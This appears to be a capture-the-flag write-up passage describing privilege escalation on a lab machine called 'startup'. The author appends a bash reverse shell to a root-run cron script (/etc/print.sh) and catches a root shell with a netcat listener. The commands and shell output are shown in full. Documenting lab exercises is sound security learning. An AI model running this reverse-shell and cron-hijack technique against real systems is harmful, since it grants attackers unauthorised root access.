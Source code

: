 # Exploitation to root

I was checking the cronjobs on the target, but i found nothing witch is calling the planner.sh scirpt in the user folder. But the "planner.sh" was owned by root. So i was thinking that there is a job running witch is calling the script. 

I have write access to the "print.sh" file. Maybe i can add a bash reverse-shell to the "print.sh" file and it will gave me a reverse-shell. 

# Weaponization to root

I got the revese-shell from pentestmonky 

```sh
bash -i >& /dev/tcp/10.9.170.39/8080 0>&1
```

I changed it to my ip address and added this to the "print.sh" file and started a listener on my machine:

```sh
echo "bash -i >& /dev/tcp/10.9.170.39/8080 0>&1" >> /etc/print.sh
```

```sh
l****e@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
l****e@startup:~/scripts$ echo "bash -i >& /dev/tcp/10.9.170.39/8080 0>&1" >> /etc/print.sh
l****e@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i >& /dev/tcp/10.9.170.39/8080 0>&1
```

Now i have to wait if there is a revershell comming back to me. 

After some minutes i got a reverse shell and i am logged in as root. 

```sh
❯ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.9.170.39] from (UNKNOWN) [10.10.76.61] 41020
bash: cannot set terminal process group (1916): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@startup:~# whoami
whoami
root
root@startup:~# 
```

So i rooted the target and i can read the root.txt file. 
